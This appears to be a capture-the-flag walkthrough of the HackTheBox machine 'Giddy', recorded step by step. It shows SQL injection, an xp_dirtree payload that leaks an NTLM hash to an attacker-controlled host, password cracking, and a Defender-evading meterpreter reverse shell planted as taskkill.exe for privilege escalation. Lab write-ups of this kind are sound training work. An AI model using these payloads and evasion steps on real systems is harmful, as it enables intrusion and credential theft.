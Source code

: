 # Giddy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.140 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 10:00 EDT
Nmap scan report for 10.129.96.140
Host is up (0.0083s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

Both RDP and WinRM are accessible on this machine, which is new.&#x20;

### SQLI --> Stacy Shell

Port 80 just shows a cute image:

<figure><img src="../../../.gitbook/assets/image (657).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` scan on this, and found 2 directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.96.140 -t 100 
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.140
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/08 10:02:08 Starting gobuster in directory enumeration mode
===============================================================
/remote               (Status: 302) [Size: 157] [--> /Remote/default.aspx?ReturnUrl=%2fremote]
/mvc                  (Status: 301) [Size: 148] [--> http://10.129.96.140/mvc/]
```

Visiting it reveals a Windows Powershell Web Access page:

<figure><img src="../../../.gitbook/assets/image (507) (2).png" alt=""><figcaption></figcaption></figure>

The MVC site reveals some online store:

<figure><img src="../../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

When products are viewed, it loads this URL:

```
http://10.129.96.140/mvc/Product.aspx?ProductSubCategoryId=18
```

If we replace the number with a `'` character, a lot of SQL errors are returned:

<figure><img src="../../../.gitbook/assets/image (655).png" alt=""><figcaption></figcaption></figure>

This is vulnerable to SQL injection. Googling any of the errors here reveals that this is MSSQL, which we can actually get RCE from through `xp_cmdshell`.&#x20;

```sql
2; EXEC master ..xp_dirtree '\\10.10.14.13\share'; --
```

We can start `responder` and intercept the response by sending the above command:

<figure><img src="../../../.gitbook/assets/image (432) (2).png" alt=""><figcaption></figcaption></figure>

Then we can crack this hash easily using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)     
1g 0:00:00:00 DONE (2023-05-08 10:10) 1.020g/s 2744Kp/s 2744Kc/s 2744KC/s xabat..x6forever
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

By right, this machine came our before `evil-winrm`, so the intentional route is to use the Remote Powershell Web Access to download and execute a reverse shell. I did it the `evil-winrm` way.

<figure><img src="../../../.gitbook/assets/image (7) (4) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Unifivideo

Within the Documents directory, there's one folder present:

```
*Evil-WinRM* PS C:\Users\Stacy\documents> dir


    Directory: C:\Users\Stacy\documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:36 AM              6 unifivideo

*Evil-WinRM* PS C:\Users\Stacy\documents> type unifivideo
stop
```

Also, we can enumerate and see that Windows Defender is enabled for this machine, meaning any payload we use has to be obfuscated and encoded.&#x20;

```
*Evil-WinRM* PS C:\Users\Stacy\documents> cmd.exe /c "sc query windefend"

SERVICE_NAME: windefend
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

So we cannot run WinPEAS on this machine too. I decided to check if the Powershell history files were present still, because it could contain some good information, and it did exist:

```
*Evil-WinRM* PS C:\Users\Stacy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net stop unifivideoservice
$ExecutionContext.SessionState.LanguageMode
Stop-Service -Name Unifivideoservice -Force
Get-Service -Name Unifivideoservice
whoami
Get-Service -ServiceName UniFiVideoService
```

Now we can exploit this.&#x20;

{% embed url="https://www.exploit-db.com/exploits/43390" %}

We need to create a reverse shell file that would bypass Windows Defender. I was a bit lazy, so I used `msfconsole` to generate this:

```
use evasion/windows/windows_defender_exe
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
[+] OFVDGEyW.exe stored at /home/kali/.msf4/local/OFVDGEyW.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
```

Afterwards, we just need to transfer this reverse shell over and name it as `taskkill.exe` within `C:\programdata\unifi-video` and then run the `stop-service -name Unifivideoservice` command.

<figure><img src="../../../.gitbook/assets/image (633) (1).png" alt=""><figcaption></figcaption></figure>

Then, we would get a meterpreter shell on the listener:

<figure><img src="../../../.gitbook/assets/image (642).png" alt=""><figcaption></figcaption></figure>

Rooted!

